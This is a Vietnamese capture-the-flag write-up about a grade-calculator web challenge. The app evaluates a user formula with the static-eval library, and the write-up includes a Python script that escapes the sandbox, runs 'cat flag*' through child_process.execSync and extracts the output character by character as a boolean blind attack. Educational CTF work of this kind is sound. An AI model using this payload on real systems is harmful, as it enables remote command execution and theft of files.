 ![image](https://github.com/user-attachments/assets/25c591fb-21e8-47b8-a8c9-64c604d5c7c8)

Đây là giao diện của trang web:

![image](https://github.com/user-attachments/assets/6057e3e1-0134-4921-8874-783b97a890f5)

Và req của trang web đó:

![image](https://github.com/user-attachments/assets/d40ea384-4761-4d64-b99d-760bbddb357f)

Đây là src code và điểm được tính theo công thức 0.20 * assignment + 0.25 * exam + 0.25 * paper, nếu trên 10.5 thì pass:

![image](https://github.com/user-attachments/assets/413c59d6-bb85-4a88-9f4f-be9ed985f490)

![image](https://github.com/user-attachments/assets/296428be-092a-4e8a-a364-65de594c5d56)

Để ý `let ast = parse(formula).body[0].expression;` và `let weight = evaluate(ast, { exam, paper, assignment });` là có thể tính toán formula trong đó, tức là thực thi trong đó, [static-eval](https://github.com/browserify/static-eval):

![image](https://github.com/user-attachments/assets/6ec99873-3724-4d15-b257-bb61a23a9005)

Vậy thì dựa vào điều kiện passed và nope thì có thể dùng boolean base:

```
import requests
import string

url = 'http://94.237.50.40:47878/'

flag = ''

for i, _ in enumerate(iter(bool, True)):
  for c in string.printable:
    # if char from flag is guessed correctly, return 25 (Passed: formula >= 10.5) else return 1 (Nope: formula < 10.5)
    p = "(function (x) { return `${eval(\"if(global.process.mainModule.constructor._load('child_process').execSync('cat flag*').toString().charCodeAt(" + str(i) + ") == " + str(ord(c)) + ") {25} else {1}\")}` })()"

    j = {"name": "lmaoo", "formula": p}
    r = requests.post(url + '/api/calculate', json=j)

    if(b'Passed' in r.content):
      flag += c
      print(flag)

      if(c == '}'):
        quit()

      break
```
![image](https://github.com/user-attachments/assets/a2d1f98d-d168-4896-8c20-b167cb515a44)






